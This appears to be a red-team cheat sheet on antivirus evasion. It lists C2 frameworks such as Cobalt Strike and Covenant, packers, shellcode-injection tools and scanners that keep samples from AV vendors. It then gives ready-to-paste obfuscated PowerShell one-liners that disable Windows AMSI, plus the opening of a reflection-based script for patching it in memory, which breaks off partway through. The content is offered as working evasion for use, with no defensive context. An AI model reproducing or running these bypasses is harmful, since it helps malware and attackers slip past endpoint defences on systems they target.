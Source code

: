 # AV Bypass

## Practical 

### C2

- [Covenant](https://github.com/cobbr/Covenant) 
- [Cobalt Strike](https://www.cobaltstrike.com/)
- Metasploit (Without meterpreter ^^)

### Packer
- [PEzor](https://github.com/phra/PEzor)
- [ScareCrow](https://github.com/optiv/ScareCrow)

### Memory injection
- [SharpBlock](https://github.com/CCob/SharpBlock)
	- inject shellcode directly into memory 
	- bypass ETW and Process Hollowing detection
	- Bypass specific AV and ERD dll 

### Not distributed to online AV
- [antiscan.me](https://antiscan.me)
- [nodistribute](https://nodistribute.com/)

### AMSI Bypass

one line

```sh
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

set-item('V'+'aR'+'IA'+'blE:1q2'+'uZx')([TYpE]("{1}{0}"-F'F','rE'));(GeT-VariaBle("1Q2U"+"zX")-VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}"-f'Util','A','Amsi','.Management.','utomation.','s','System'))."g`etf`iElD"(("{0}{2}{1}"-f'amsi','d','InitFaile'),("{2}{4}{0}{1}{3}"-f'Stat','i','NonPubli','c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})

$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

script (can be copied pasted directly into powershell console)

```bash
function LookupFunc {
  Param ($moduleName, $functionName)

  $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
  Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
    Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
  $tmp=@()
  $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
  return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,  @($moduleName)), $functionName))
}

function getDelegateType {
  Param (
```